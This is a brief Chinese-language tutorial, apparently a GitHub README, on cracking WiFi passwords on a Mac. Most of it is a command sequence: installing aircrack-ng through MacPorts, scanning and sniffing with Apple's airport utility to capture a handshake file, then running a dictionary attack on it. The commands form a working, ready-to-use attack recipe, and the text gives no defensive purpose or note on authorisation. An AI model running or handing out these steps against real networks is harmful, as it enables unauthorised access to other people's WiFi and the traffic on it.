 # Wifi密碼破解實戰-Mac

## 事前準備
- 密碼字典
- 安裝MacPorts

## 所需指令
```js
sudo port selfupdate
sudo port install aircrack-ng
sudo /System/Library/PrivateFrameworks/Apple80211.framework/Versions/A/Resources/airport -s #取得Wifi資訊
sudo /System/Library/PrivateFrameworks/Apple80211.framework/Versions/A/Resources/airport en0 sniff #監聽口
sudo aircrack-ng /tmp/終端機會輸出檔案名.cap
cd  ~/你的Wifi/字典路徑
sudo aircrack-ng -w 字典名稱.txt /tmp/終端機會輸出檔案名.cap #破解密碼
```
